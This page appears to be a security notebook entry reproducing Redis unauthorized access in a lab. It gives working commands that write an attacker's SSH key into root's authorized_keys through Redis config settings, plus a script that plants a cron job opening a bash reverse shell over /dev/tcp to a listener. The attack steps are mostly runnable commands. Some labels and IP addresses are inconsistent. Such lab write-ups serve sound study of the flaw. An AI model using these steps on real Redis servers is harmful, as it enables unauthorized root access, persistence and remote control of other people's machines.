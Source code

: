 # Unauthorized Access Vulnerability in Redis

## Introduction

Redis is an open source storage system that supports persistent storage of data, supports key-value, list, set and other data structure storage, and supports backup.

However, if redis has unauthorized access, it will lead to the attacker being able to access redis internal resources without authentication, obtain sensitive files, and even execute flushall to clear data, write ssh public key to the root account and directly remote login to the target server.

## Environment Setup

```
wget https://download.redis.io/releases/redis-5.0.14.tar.gz
tar xvf redis-5.0.14.tar.gz
cd  redis-5.0.14
make -j 4
make install
```

Just run redis-server

```
redis-server --protected-mode no
```

## Vulnerability Reproduction

```
root@l-virtual-machine:/opt# redis-cli -h 192.168.32.141
192.168.32.141:6379> keys *
(empty array)
```

![image-20220810110332694](../../.gitbook/assets/image-20220810110332694.png)

Access SSH private key

```sh
$ ssh-keygen -t  rsa
$ (echo -e "  "; cat /root/.ssh/id_rsa.pub; echo -e "  ") > foo.txt
$ cat foo.txt | redis-cli -h 192.168.32.141 -x set test
$ redis-cli -h 192.168.32.141
$ 192.168.1.11:6379> config set dir /root/.ssh/
OK
$ 192.168.1.11:6379> config get dir
1) "dir"
2) "/root/.ssh"
$ 192.168.1.11:6379> config set dbfilename "authorized_keys"
OK
$ 192.168.1.11:6379> save
OK
```



Reverse shell

> This method failed in ubuntu due to the inability to ignore garbled code.
>
> ![image-20220810112406540](../../.gitbook/assets/image-20220810112406540.png)

```sh
#shell.sh
echo -e "\n\n\n*/1 * * * * bash -i >&/dev/tcp/192.168.32.141/9999 0>&1\n\n\n"|redis-cli -h $1 -p $2 -x set 1
redis-cli -h $1 -p $2 config set dir /var/spool/cron/
redis-cli -h $1 -p $2 config set dbfilename root
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit
```

![image-20230130132657554](../../.gitbook/assets/image-20230130132657554.png)
